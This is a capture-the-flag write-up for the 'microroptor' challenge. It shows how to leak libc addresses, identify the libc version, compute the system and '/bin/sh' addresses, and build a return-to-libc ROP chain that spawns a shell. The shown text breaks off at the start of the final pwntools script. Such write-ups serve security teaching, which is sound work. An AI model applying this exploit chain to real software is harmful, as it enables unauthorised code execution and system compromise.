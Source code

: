By leaking, read, puts and printf we need to take the last 3 bytes of all address (because in the libc function are always at the same place, depending in the libc version)


![image alt](./ressources/libc.png )

And we get few libc version possibilities, by trying we can figure out than the right one is `libc6_2.31-13_amd64`

Then we can get system address and "/bin/sh" in order to get a shell.
```python
printf_offset = 0x056cf0
bin_sh_offset = 0x18a152
system_offset = 0x048e50

libc_leak = u64(leak("printf")) #Get printf address in order to calculate libc base address

libc_base = libc_leak - printf_offset #printf function in the binary - printf offset in the libc
BIN_SH = libc_base + bin_sh_offset
SYSTEM = libc_base + system_offset
```
We just need to create a final ropchain to get a shell:
```
-------------
| A * 40     |
-------------
| POP_RDI    | <- To store into RDI 
--------------
| BIN_SH     |  <- To be stored in RDI (function to leak)
--------------
| RET        | <- To align our ropchain (16bits modulo)
--------------
| SYSTEM     | <- Call to system (stored into RIP)
--------------
```
rop2 = `A*OFFSET + POP_RDI + BIN_SH + RET + SYSTEM`
#### Final Script
```python
└─$ cat exploit.py
#!/bin/python3
from pwn import *

BIN_NAME = "microroptor"
HOST_NAME= "challenges.france-cybersecurity-challenge.fr"
```